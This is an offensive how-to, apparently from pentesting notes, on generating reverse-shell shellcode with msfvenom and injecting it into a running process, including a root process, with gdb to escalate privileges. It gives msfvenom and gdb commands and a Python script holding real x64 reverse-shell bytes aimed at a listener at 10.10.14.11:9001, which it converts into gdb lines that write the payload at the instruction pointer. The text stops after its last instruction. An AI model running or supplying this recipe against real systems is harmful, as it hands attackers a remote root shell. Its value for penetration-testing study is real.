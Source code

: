 To create a shellcode using `msfvenom` and inject it into memory using `gdb`, follow the steps below:

1. Generate the shellcode using `msfvenom`:
```shell
msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<attacker_port> -f <format> -o <output_file>
```
Replace `<payload>` with the desired payload, `<attacker_ip>` with the IP address of the attacker machine, `<attacker_port>` with the port number the attacker machine will listen on, `<format>` with the desired output format, and `<output_file>` with the name of the output file.

2. Start `gdb` and attach it to the target process:
```shell
gdb -p <pid>
```
Replace `<pid>` with the process ID of the target process.

3. Set a breakpoint at a suitable location in the target process's code.

4. Inject the shellcode into memory using `gdb`:
```shell
call mmap(0, <shellcode_size>, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0)
```
Replace `<shellcode_size>` with the size of the shellcode.

5. Copy the shellcode into the allocated memory:
```shell
call memcpy(<destination_address>, <source_address>, <shellcode_size>)
```
Replace `<destination_address>` with the address of the allocated memory, `<source_address>` with the address of the shellcode, and `<shellcode_size>` with the size of the shellcode.

6. Modify the program's execution flow to jump to the injected shellcode.

7. Continue the execution of the target process:
```shell
continue
```

By following these steps, you can create a shellcode using `msfvenom` and inject it into memory using `gdb`. This technique can be useful for various purposes, including privilege escalation and post-exploitation activities.
```python
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
buf += b"\x48\x97\x48\xb9\x02\x00\x23\x29\x0a\x0a\x0e\x0b"
buf += b"\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
buf += b"\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
buf += b"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
buf += b"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
buf += b"\x0f\x05"

# Divisible by 8
payload = b"\x90" * (8 - len(buf) % 8 ) + buf

# Change endianess and print gdb lines to load the shellcode in RIP directly
for i in range(0, len(buf), 8):
chunk = payload[i:i+8][::-1]
chunks = "0x"
for byte in chunk:
chunks += f"{byte:02x}"

print(f"set {{long}}($rip+{i}) = {chunks}")
```
Debug a root process with gdb and copy-paste the previously generated gdb lines:
